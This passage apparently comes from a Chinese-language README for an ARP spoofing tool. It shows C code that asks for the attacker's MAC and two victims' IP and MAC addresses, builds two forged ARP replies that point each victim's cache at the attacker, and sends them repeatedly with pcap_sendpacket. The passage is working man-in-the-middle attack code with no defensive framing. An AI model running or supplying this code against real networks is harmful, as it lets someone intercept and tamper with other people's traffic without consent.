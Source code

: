 4. 用户输入参数封装arp包

   ```c
   	printf("please input self_mac address like aa-aa-aa-aa-aa-aa: ");
   	scanf_s("%x-%x-%x-%x-%x-%x", &self_mac[0], &self_mac[1], &self_mac[2], &self_mac[3], &self_mac[4], &self_mac[5]);
   
   	printf("please input victim1's ip like 1.1.1.1: ");
   	scanf_s("%d.%d.%d.%d", &victim1_ip[0], &victim1_ip[1], &victim1_ip[2], &victim1_ip[3]);
   
   	printf("please input victim1's mac like aa-aa-aa-aa-aa-aa: ");
   	scanf_s("%x-%x-%x-%x-%x-%x", &victim1_mac[0], &victim1_mac[1], &victim1_mac[2], &victim1_mac[3], &victim1_mac[4], &victim1_mac[5]);
   
   	printf("please input victim2's ip like 1.1.1.1: ");
   	scanf_s("%d.%d.%d.%d", &victim2_ip[0], &victim2_ip[1], &victim2_ip[2], &victim2_ip[3]);
   
   	printf("please input victim2's mac like aa-aa-aa-aa-aa-aa: ");
   	scanf_s("%x-%x-%x-%x-%x-%x", &victim2_mac[0], &victim2_mac[1], &victim2_mac[2], &victim2_mac[3], &victim2_mac[4], &victim2_mac[5]);
   
   	pktbuild(&packet1, self_mac, victim1_ip, victim2_mac, victim2_ip);				//build a arp-packet at &packet
   	pktbuild(&packet2, self_mac, victim2_ip, victim1_mac, victim1_ip);				//build a arp-packet at &packet
   
   	printf("please input the flood(num of packet to send):");
   	scanf_s("%d", &flood);
   ```

5. 循环发包

   ```
   	/* Send down the packet */
   	for (int i = 0; i < flood; i++)
   	{
   		if (pcap_sendpacket(fp,	// Adapter
   			packet1,				// buffer with the packet
   			100				// size
   			) != 0)
   		{
   			fprintf(stderr, "\nError sending the packet: %s\n", pcap_geterr(fp));
   			return 3;
   		}
   
   		if (pcap_sendpacket(fp,	// Adapter
   			packet2,				// buffer with the packet
   			100				// size
   		) != 0)
   		{
   			fprintf(stderr, "\nError sending the packet: %s\n", pcap_geterr(fp));
   			return 3;
   		}
   
   		Sleep(100);			//发送间隔时间100ms
   	}
   ```
